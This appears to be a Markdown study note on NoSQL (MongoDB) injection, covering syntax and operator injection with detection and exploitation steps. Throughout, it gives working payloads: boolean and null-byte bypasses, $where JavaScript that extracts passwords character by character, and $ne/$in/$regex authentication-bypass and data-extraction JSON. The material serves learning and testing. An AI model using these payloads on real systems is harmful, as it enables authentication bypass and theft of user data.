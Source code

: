 >[!summary]
>[NoSQL 101](../Dev,%20scripting%20&%20OS/NoSQL%20101.md) injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database.

Potential impact:
- Authentication Bypass
- Extract or edit data
- Denial of Service
- [Remote Code Execution (RCE)](Remote%20Code%20Execution%20(RCE).md)

# Types of NoSQL Injection

## Syntax Injection

This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. 

### Detect

To do this, systematically test each input by submitting fuzz strings and special characters that trigger a database error or some other detectable behavior if they're not adequately sanitized or filtered by the application.

Example string for MongoDB:
```
'"`{
;$Foo}
$Foo \xYZ

https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

>[!note]
>In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become
>```
>'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
>```

### Exploit

**Boolean condition**

After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.
To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:
```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||1||'`

```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

Resulting query:
this.category == 'fizzy'||'1'=='1'
```

You could also add a null character after the category value. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored:

```
https://insecure-website.com/product/lookup?category=fizzy'%00

Resulting query:
this.category == 'fizzy'\u0000' && this.released == 1 (where "&& this.released == 1" is ignored)
```

**JavaScript code**

Some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function.

```
https://insecure-website.com/user/lookup?username=admin

Resulting query:
{"$where":"this.username == 'admin'"}
```

As the query uses the `$where` operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data:
```js
admin' && this.password[0] == 'a' || 'a'=='b // This returns the first character of the user's password string, enabling you to extract the password character by character.
```

![](attachments/nosql-injection-bruteforce-1.png)
![](attachments/nosql-injection-bruteforce-2.png)
![](attachments/nosql-injection-bruteforce-3.png)

You could also use the JavaScript `match()` function to extract information:
```js
admin' && this.password.match(/\d/) || 'a'=='b
```

**Identifying field names**

You may need to identify valid fields in the collection before you can extract data using JavaScript injection. Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the username field exists, so you could send the following payloads:

```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'

admin' && this.username!='
admin' && this.foo!='
```

If the `password` field exists, you'd expect the response to be identical to the response for the existing field (`username`), but different to the response for the field that doesn't exist (`foo`).
## Operator Injection

This occurs when you can use NoSQL query operators to manipulate queries. 

Examples of MongoDB query operators include:
- `$where` - Matches documents that satisfy a JavaScript expression.
- `$ne` - Matches all values that are not equal to a specified value.
- `$in` - Matches all of the values specified in an array.
- `$regex` - Selects documents where values match a specified regular expression.

### Detect

In JSON messages, you can insert query operators as nested objects:

```json
{"username":"wiener"}
{"username":{"$ne":"invalid"}}

{"username":{"$ne":"invalid"},"password":{"peter"}}
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

![](attachments/nosql-op-auth-bypass.png)

For URL-based inputs, you can insert query operators via URL parameters:

```http
username=wiener
username[$ne]=invalid
```

If this doesn't work, you can try the following:
1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

### Exploit

Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via this operator.

To test whether you can inject operators, you could try adding the $where operator as an additional parameter:
```

{"username":"wiener","password":"peter"}

{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```

If you have injected an operator that enables you to run JavaScript, you may be able to use the keys() method to extract the name of data fields:
```js
"$where":"Object.keys(this)[0].match('^.{0}a.*')" // This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character.
```

You may be able to extract data using operators that don't enable you to run JavaScript. For example, you may be able to use the `$regex` operator to extract data character by character:

```js

{"username":"myuser","password":"mypass"}

{"username":"admin","password":{"$regex":"^.*"}} // If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
{"username":"admin","password":{"$regex":"^a*"}}
```